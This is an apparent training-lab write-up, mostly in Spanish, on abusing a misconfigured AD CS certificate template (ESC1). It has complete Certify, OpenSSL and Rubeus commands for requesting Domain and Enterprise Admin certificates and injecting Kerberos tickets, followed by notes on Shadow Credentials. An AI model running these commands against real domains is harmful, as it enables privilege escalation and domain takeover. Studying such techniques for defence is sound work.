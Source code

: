 - En techcorp, el usuario pawadmin tiene derechos de inscripción a una plantilla ``ForAdminsofPrivilegedAccessWorkstations``
- La plantilla tiene el valor ENROLLEE_SUPPLIES_SUBJECT para msPKI- Bandera de nombre de certificado. (ESC1)
- Esto significa que pawadmin puede solicitar certificados para CUALQUIER usuario.
- Tenga en cuenta que esto no aparece cuando se enumeran vulnerables vulnerables en Certify

```
Certify.exe find
Certify.exe find /enrolleeSuppliesSubject
```

- Tenemos el certificado de pawadmin que extrajimos de us-jump. (THEFT4)
- Usamos el certificado para pedir un TGT para pawadmin e inyectarlo: 

```
C:\AD\Tools\Rubeus.exe asktgt /user:pawadmin /certificate:C:\AD\Tools\pawadmin.pfx /password:SecretPass@123 /nowrap /ptt
```


```
- ¡Solicitar un certificado para DA!
C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator

- Convertir de cert.pem a pfx:
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx

- Solicitar DA TGT e inyectarlo:
C:\AD\Tools\Rubeus.exe asktgt /user:Administrator /certificate:C:\AD\Tools\DA.pfx /password:SecretPass@123 /nowrap /ptt
```

```
• Request a certificate for EA!
C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
• Convert from cert.pem to pfx:
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\EA.pfx
• Request EA TGT and inject it:
C:\AD\Tools\Rubeus.exe asktgt /user:techcorp.local\Administrator /dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
```

## Shadow Credentials

- Los usuarios y ordenadores tienen el atributo ``msDS-KeyCredentialLink`` que contiene las claves públicas sin procesar del certificado que se puede utilizar como una credencial alternativa.
- Este atributo se utiliza cuando configuramos ``Windows Hello for Business (WHfB)``
- Por defecto, los administradores de claves y los administradores de claves de empresa tienen derechos para modificar el atributo ``msDS-KeyCredentialLink``.
- Se puede solicitar el ``User to User Service Ticket (U2U)`` para descifrar la entidad ``NTLM_SUPPLEMENTAL_CREDENTIAL`` cifrada del ``Privilege Attribute Certificate (PAC)`` y extraer el hash NTLM.
